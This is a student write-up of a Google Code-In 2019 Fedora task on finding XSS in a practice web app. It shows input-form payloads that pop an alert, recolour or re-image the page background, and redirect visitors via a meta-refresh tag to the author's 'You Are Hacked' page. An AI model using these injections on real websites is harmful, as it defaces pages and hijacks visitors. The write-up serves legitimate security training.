


# Detect the XSS Vulnerability
## Google Code-In 2019 task by Fedora Project
### **DISCLAIMER:** All the steps showed in this write-up are just for education purposes. I don' t take responsibility for illegal activities made by those steps.
### Steps to do:
- Create an alert box saying 'HACKED'.
- Change the background color of the website to 'RED'.
- Change the background of the website to an image of your choice.
- Redirect the website to another page saying 'You Are Hacked'.

## Create an alert box saying 'HACKED':
Using *javascript*, we can easily create an alert box inside our web browsers using ```alert()``` function.
This function takes a string with message to show inside the alert.
Since our app is vulnerable, we can exploit ```<input>``` form and make it execute our javascript code by easily putting:
```
<script>alert("HACKED");</script>
```
### Result:


## Change the background color of the website to 'RED':
### ```<style>``` HTML tag allows us to put internal CSS code onto HTML.
### To change background color of whole website using CSS, we have to change ```background-color``` property within ```<body>``` section.
CSS Code that change ```<body>``` ```background-color``` property to red is:
```
body{background-color: red;}
```
In order to inject this CSS Code into our website, we have to fill the ```<input>``` form with following code:
```
<style>body{background-color: red}</style>
```
### Result:


## Change the background of the website to an image of your choice:
### CSS ```background:``` property can be filled with ```url()``` function with URL to every image accessible in the internet.
In this case we still have to change the ```<body>``` section property.
CSS code to do that is: ```body{background: url(<place your url here>)}```
To inject this code, we just have to place this CSS code within ```<style>``` tag.

```
<style>body{background: url(https://images.unsplash.com/photo-1575323653947-b92f5215407c?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1234&q=80);</style>
```
### It gives us following results:


## Redirect the website to another page saying 'You Are Hacked':
### As first, we have to create and host page saying **'You Are Hacked'**
The website code is:
```
<!DOCTYPE html>
<body>
<h1>You Are Hacked!</h1>
</body>
```

Unfortunetly, while I had been writing this write-up, the [HTMLPASTA](htmlpasta.com) was dead, so I decided to host my page on [Github Pages](https://pages.github.com).

Redirection can be done by HTML with following code:
```
<meta http-equiv="refresh" content="time; url = link"/>
```

So putting ```<meta http-equiv="refresh" content="0; url=https://synnek1337.github.io/gci-2019/detect-the-xss-vulnerability/youarehacked.html"/>``` gives us following result:
